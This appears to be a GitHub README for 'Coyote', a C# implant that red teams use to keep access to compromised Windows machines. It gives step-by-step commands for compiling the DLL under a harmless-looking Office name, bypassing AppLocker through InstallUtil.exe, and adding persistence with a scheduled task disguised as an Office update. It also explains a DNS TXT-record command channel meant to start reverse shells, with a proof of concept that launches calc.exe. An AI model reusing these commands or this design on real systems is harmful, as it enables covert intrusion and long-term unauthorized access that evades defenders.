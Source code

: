 # Coyote

Coyote is a standalone C# post-exploitation implant for maintaining access to compromised Windows infrastructure during red team engagements.

* Bypasses application whitelisting such as Microsoft AppLocker using InstallUtil.exe (see [MITRE ATT&CK ID: T1218.004](https://attack.mitre.org/techniques/T1218/004/))
* Retrieves commands from operator via recursive DNS tunnel (see [MITRE ATT&CK ID: T1071.004](https://attack.mitre.org/techniques/T1071/004/))
* Small footprint in memory and on the network

The basic premise is for the red team to leave this tiny DLL behind on a compromised Windows system and have it occasionally poll the DNS TXT record of a legitimate looking FQDN to check for instructions. When needed, the TXT record can contain a simple powershell one liner to spawn an interactive reverse shell out to a VPS, or the first stage of something more sophisticated, as per the operator's requirements. Coyote is not used for interactive control of the compromised system, rather to maintain access and spawn some other tool (a reverse shell, meterpreter etc) as required.

### Usage

First of all edit the coyote.cs source file and set the c2domain variable to the subdomain you will be using for your TXT record.

To compile it on your own Windows box: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:msoffice360.dll coyote.cs`

This will create a small DLL file of approximately 5 KB called msoffice360.dll (use whatever filename you think will blend in on the target) which you will place on the target system.

To execute it once on the target workstation or server: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U msoffice360.dll`

For it to be useful, Coyote needs to get executed repeatedly at some interval such as every 24 hours or upon each reboot. There are many ways to achieve this. See [PayloadsAllTheThings - Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md) for a long list of techniques and pick one.

One way that will serve as an example is to hide the DLL in a user's AppData folder and then simply create a new scheduled task:

`schtasks /CREATE /SC DAILY /TN "Microsoft Office security updates task" /TR "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Olivia\AppData\Local\Microsoft\msoffice360.dll" /ST 08:00`

This means that every day at 0800 the built-in InstallUtil.exe will import and run the DLL's uninstall function, which will then do a recursive DNS lookup to check if a command is currently encoded in the TXT record, and if so execute it. This can hopefully remain undetected by the blue team until needed and act as a backup to any other methods being used to maintain remote access to the network.

To leave a command to be executed (generally this will be used to spawn an interactive reverse shell), base64 encode the exact string that you would have typed into the command line and place it in a TXT record on the subdomain that you set when you compiled the implant. Next time the implant calls home it will be executed.

### Proof-of-concept

We base64 encode the string calc.exe to get Y2FsYy5leGU=

We create a TXT record on our DNS server as follows:

`TXT	updates.tartaruslabs.com	Y2FsYy5leGU=`

This record is saved and from our laptop we then confirm it is active:

`user@laptop:~$ host -t txt updates.tartaruslabs.com`
`updates.tartaruslabs.com descriptive text "Y2FsYy5leGU="`

In coyote.cs we set the value of c2domain to "updates.tartaruslabs.com" and then compile it.

We execute the implant and sure enough calculator opens. 

![Coyote screenshot](https://github.com/TartarusLabs/Coyote/blob/main/screenshot.jpg?raw=true)

